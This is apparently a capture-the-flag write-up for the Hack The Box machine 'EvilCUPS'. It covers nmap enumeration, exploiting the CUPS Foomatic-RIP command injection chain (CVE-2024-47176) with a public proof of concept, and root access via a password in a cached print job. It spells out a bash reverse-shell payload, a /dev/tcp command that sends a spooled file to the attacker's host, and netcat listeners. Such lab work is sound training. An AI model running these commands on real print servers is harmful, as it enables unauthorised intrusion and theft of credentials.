




Machine Info:
EvilCUPS is a Medium difficulty Linux machine that features a
CUPS Command Injection Vulnerability
(CVE-2024-47176).
This CVE allows remote unauthenticated users the ability to install a malicious printer on the vulnerable machine over
UDP/631.
This printer is configured to utilize
Foomatic-RIP,
which is used to process documents and where the command injection happens. In order to trigger the command execution,
a document needs to be printed. The CUPS Webserver is configured to allow anonymous users access to
TCP/631.
Navigating here makes it possible to print a test page on the malicious printer and gain access as the lp user.
This user has the ability to retrieve past print jobs, one of which contains the root password to the box.

Enumeration:
Nmap:
nmap -sV -sC 10.129.231.157 -oA EvilCUPS
Host is up (0.038s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
| 256 36:49:95:03:8d:b4:4c:6e:a9:25:92:af:3c:9e:06:66 (ECDSA)
|_ 256 9f:a4:a9:39:11:20:e0:96:ee:c4:9a:69:28:95:0c:60 (ED25519)
631/tcp open ipp CUPS 2.4
|_http-title: Home - CUPS 2.4.2
| http-robots.txt: 1 disallowed entry
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
An Nmap scan reveals that SSH is running on its default port, and port 631 is open for CUPS's web interface, suggesting the presence of a print server. Researching CUPS shows that it also operates on UDP. Conducting another scan on UDP port 631 confirms that CUPS is active on this port as well.
nmap -sU -p631 10.129.231.157
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-16 11:19 IST
Nmap scan report for 10.129.231.157
Host is up (0.046s latency).
PORT STATE SERVICE
631/udp open|filtered ipp
Nmap done: 1 IP address (1 host up) scanned in 1.07 seconds
Foothold:
The CUPS Web Interface advertises that CUPS Version 2.4.2 is running, which was released March 4, 2022. Additionally, the copyright on the footer of the CUPS Page is from 2022.

A search for recent CUPS vulnerabilities reveals several notable ones from 2024, including:
- CVE-2024-47176: cups-browsed
- CVE-2024-47076: libcupsfilters
- CVE-2024-47175: libppd
- CVE-2024-47177: Foomatic-RIP
These vulnerabilities, discovered by EvilSocket, are detailed in an excellent blog post. We’ll leverage these CVEs to achieve remote code execution on the target system.
Getting Command Execution:
A public proof-of-concept (PoC) for automating this attack is available at https://github.com/ippsec/evil-cups. This PoC sets up an IPP server on port 12345, which delivers malicious printer attributes designed to inject a Foomatic-RIP payload. It then sends a cups-browsed packet to the target, instructing the CUPS server to install the crafted printer.
python3 evilcups.py 10.10.14.57 10.129.231.157 'bash -c "bash -i >& /dev/tcp/10.10.14.57/443 0>&1" &'
To achieve command execution, a print job must be sent to the installed printer. The CUPS Management Server does not treat printing test pages as a sensitive action, meaning unauthenticated users can perform this task if the server is exposed.
Steps to execute the command:
- Navigate to
http://10.129.231.157:631.
- Click on Printers and select the printer you installed.
- Open the Maintenance dropdown menu.
- Select Print Test Page.
This action will trigger the execution of the malicious command embedded in the Foomatic-RIP payload.
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.57] from (UNKNOWN) [10.129.231.157] 45428
bash: cannot set terminal process group (1310): Inappropriate ioctl for device
bash: no job control in this shell
lp@evilcups:/home/htb$ cat user.txt
cat user.txt
679c8bc29*************************Privilege Escalation:
The CUPS service typically runs as the lp user, which has limited permissions. However, one capability of this user is accessing cached printing jobs. If you navigate to the CUPS Management Server, click on the printer queue (e.g., Canon_MB2300_series), and review Completed Jobs, you may notice a job was sent to the printer. Jobs often end in 1, indicating they are the first job.
Cached Job Storage:
Cached print jobs are stored in /var/spool/cups/. The lp user only has execute permissions for this directory, meaning it cannot list the directory contents. However, if you know the exact filename of a cached job and it is readable, the lp user can access it.
File Naming Format:
By default, completed job files follow this naming convention:
d<print job>-<page number>
- Print job: A 5-digit number.
- Page number: A 3-digit number.
For example, Job 1, Page 1 would be stored as d00001-001.
Extracting the PostScript File:
To retrieve and view the contents of a cached print job, use the following command:
cat /var/spool/cups/d00001-001This will display the PostScript output of the print job, which might contain sensitive information or further clues for exploitation.
Since the target machine does not have netcat installed, we can use the /dev/tcp path to send the data or file to ourselves.
lp@evilcups:/$ cat /var/spool/cups/d00001-001 > /dev/tcp/10.10.14.56/4444We can attempt to convert this .ps file (as indicated by the file header) into a PDF format. To transfer the file, start a new listener using nc on port 4444 and save the incoming data into a file named printer.ps.
nc -lvnp 4444 > printer.ps
listening on [any] 4444 ...
connect to [10.10.14.57] from (UNKNOWN) [10.129.231.157] 46466The password is visible in plaintext in the file, but it’s more fun to create a visible image of what was printed. I’ll take that file and save a copy on my host. I’ll use ps2pdf to generate a PDF:
ps2pdf printer.ps printer.pdfAnd then open the resulting PDF:
Using that password with su successfully grants a root shell.
lp@evilcups:/var/spool/cups$ su -
Password:
root@evilcups:~# cat /root/root.txt
b6ac9ebb**********************
root@evilcups:~# Appreciation
If my write-up helped you, I’d really appreciate it if you could show your support! 🙏 Also, if you like my content, please consider giving me respect on HTB—your support truly means a lot! 💚✨


Found a Mistake?
If you notice any errors or have feedback, feel free to email me at ashwindeep6@gmail.com. Thanks for your help!